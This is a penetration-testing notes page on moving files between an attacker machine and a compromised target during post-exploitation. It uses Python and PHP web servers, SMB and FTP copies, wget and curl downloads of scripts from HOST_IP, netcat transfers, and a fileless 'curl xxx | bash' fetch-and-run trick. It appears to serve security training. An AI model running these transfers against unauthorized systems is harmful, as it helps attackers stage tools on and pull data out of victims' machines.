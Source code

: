 # Transfer files 🛅

[![filetransfers](../../../_badges/htb/filetransfers.svg)](https://academy.hackthebox.com/course/preview/file-transfers)

<div class="row row-cols-lg-2"><div>

We will often want to transfer files between your machine, and the target. Mostly during privilege escalation and post-exploitation.

According to the current environment capabilities <small>(e.g., installed tools)</small> and restrictions <small>(e.g. firewall)</small>, we will have to use different techniques.

The most common approaches from the host to the target:

* Copy-pasting <small>(short text files)</small> ✂️
* Python web server <small>(using wget/cURL/iwr as client)</small> 🐍

📚 There are also fileless techniques to avoid storing the file on the target, such as `curl xxx | bash` or other similar tricks.
</div><div>

To transfer a file from the target to the host, it's often harder and more complex. Some common approaches are:

* Copy-pasting <small>(short text files)</small> ✂️
* Moving files to the webserver directory <small>(if applicable)</small> 📂
* Python web server <small>(often available on Linux)</small> 🐍
* Using services such as SCP/FTP/SMB/NFS/... <small>(if present)</small> 🎡
* Using installed tools such as nc, php, etc. 🧯

We may use checksum functions/commands to check that the file was correctly transferred. [Refer to cryptography/hashing/checksum](/cybersecurity/cryptography/algorithms/hashing/index.md#file-checksum).
</div></div>

<hr class="sep-both">

## Exposing a file to others 🔒

<i class="small">On the "host" where the file is:</i>

<div class="row row-cols-lg-2"><div>

#### Python webserver 🐍

You may try with `python2`, and `python3` if `python` is unavailable.

```shell!
$ python -m http.server port # port > 1023 | expose pwd
$ python [...] --directory /path/to/server/root
$ sudo python -m http.server port # port <= 1023
```

#### Upload To SMB Share

You can use `copy` to upload a file to a SMB share:

```shell!
PS> copy file.txt \\HOST_IP\share_name\path
PS> robocopy file.txt \\HOST_IP\share_name\path
```

If guest access is not allowed, try [mounting the share](/operating-systems/networking/protocols/smb.md).
</div><div>

#### Upload To FTP Server

You can use the URL `ftp://HOST_IP/<target_file_name>` with a HTTP upload tool or the [FTP](/operating-systems/networking/protocols/ftp.md) PowerShell client:

```shell!
PS> (New-Object Net.WebClient).UploadFile('ftp://X/abc', 'C:\path\to\abc')
PS> ftp -v -n
ftp> open IP
ftp> USER anonymous
password: <blank>
ftp> dir # list files
ftp> put <file>
ftp> bye
```

<br>

#### Other webservers 🎡

You may leverage an installed web development tool/package:

```shell!
$ php -S 127.0.0.1:8080 # php
$ http-server -p 8080   # node "http-server" package
```
</div></div>

<hr class="sep-both">

## Downloading an exposed file 🔑

<i class="small">On the "client" that need the file:</i>

<div class="row row-cols-lg-2"><div>

#### Using Common Utilities

The `wget` command is available on both Linux and Windows.

```shell!
$ # Download on Linux
$ wget HOST_IP:port/script.sh -o /tmp/script.sh
PS> # Download on Windows
PS> wget HOST_IP:port/script.ps1 -o $Env:TMP/script.ps1
```

You may have to use `curl` or `iws` (Windows-only) instead of `wget`.

```shell!
$ curl HOST_IP:port/script.sh -o /tmp/script.sh
PS> curl HOST_IP:port/script.ps1 -o $Env:TMP/script.ps1
PS> iws HOST_IP:port/script.ps1 -o $Env:TMP/script.ps1
```
</div><div>

#### Download From SMB Share

You can use `copy` to download a file from a share:

```shell!
PS> copy \\HOST_IP\share_name\file_path
PS> robocopy \\HOST_IP\share_name\file_path .
```

If guest access is not allowed, try [mounting the share](/operating-systems/networking/protocols/smb.md).

<br>

#### Download From FTP Server

You can use the URL `ftp://HOST_IP/<file_name>` with a HTTP client such as `wget` or the [FTP](/operating-systems/networking/protocols/ftp.md) PowerShell client:

```shell!
PS> ftp -v -n
ftp> open IP
ftp> USER anonymous
password: <blank>
ftp> dir # list files
ftp> get <file>
ftp> bye
```
</div></div>

<hr class="sep-both">

## Other methods

<div class="row row-cols-lg-2"><div>

#### services 🕳️

You may use FTP/SCP/NFS/SMB/... if applicable. You can easily create a SMB server on your machine using [impacket](/operating-systems/networking/protocols/tools/impacket.md) scripts.

* [Simple SMB Server](/operating-systems/networking/protocols/smb.md) (Linux Host)
* [Simple FTP Server](/operating-systems/networking/protocols/ftp.md#simple-ftp-server) (Linux Host)
</div><div>

#### netcat 🐈

```ps
# host
$ nc CLIENT_IP port < file.sh
# client
$ nc -lvp port > file.sh
```

<br>

#### Copy-paste ✂️

Copy-paste may be an option, but not every file can be copy-pasted. One trick is to encode the file using base64, copy-paste the base64 payload on a file on the target, and decode the file on the target.
</div></div>

<hr class="sep-both">

## 👻 To-do 👻

Stuff that I found, but never read/used yet.

<div class="row row-cols-lg-2"><div>

* [Windows File Transfer Cheatsheet](https://infinitelogins.com/2020/09/04/windows-file-transfer-cheatsheet/)
* [croc](https://github.com/schollz/croc)
* [PSUpload](https://github.com/juliourena/plaintext/blob/master/Powershell/PSUpload.ps1)
</div><div>
</div></div>